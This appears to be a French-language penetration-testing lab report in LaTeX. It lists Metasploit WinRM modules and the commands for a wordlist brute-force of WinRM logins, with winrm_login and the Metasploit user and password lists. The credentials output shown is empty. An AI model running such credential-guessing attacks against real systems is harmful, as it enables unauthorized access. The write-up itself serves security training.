 \documentclass[a4paper]{article}
\begin{document}
\begin{enumerate}
    \item Pour chercher les vulnérabilités de windows remote management (WinRM) facilement exploitable avec msfconsole, j'ai utilisé la commande: \texttt{\footnotesize search WinRM}.
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Matching Modules
================

#  Name                                                 Rank    Check
-  ----                                                 ----    -----
0  auxiliary/scanner/winrm/winrm_auth_methods           normal  No
1  auxiliary/scanner/winrm/winrm_cmd                    normal  No
2  auxiliary/scanner/winrm/winrm_login                  normal  No
3  auxiliary/scanner/winrm/winrm_wql                    normal  No
4  exploit/windows/local/bits_ntlm_token_impersonation  great   Yes
5  exploit/windows/winrm/winrm_script_exec              manual  No
\end{Verbatim}
    \end{example}
    \textbf{Note}: certaines informations ont été enlevées pour que tout rentre dans la largeur de la page.
    \item Il y a quatre scanners et deux exploits. Le premier exploit n'est utilisable qu'en local alors que le second permet l'exécution de code à distance, cependant, il requiert un nom d'utilisateur et un mot de passe. Je vais donc essayer de les trouver avec le deuxième scanner.
    \begin{example}
        Commande utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize use auxiliary/scanner/winrm/winrm\_login}
            \item \texttt{\footnotesize set pass\_file /usr/share/wordlists/metasploit/unix\_passwords.txt}
            \item \texttt{\footnotesize set user\_file /usr/share/wordlists/metasploit/unix\_users.txt}
            \item \texttt{\footnotesize run}
            \item \texttt{\footnotesize creds}
        \end{itemize}
        Résultat:
        \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Credentials
===========


\end{Verbatim}
\end{example}
\end{example}
\end{enumerate}
\end{document}

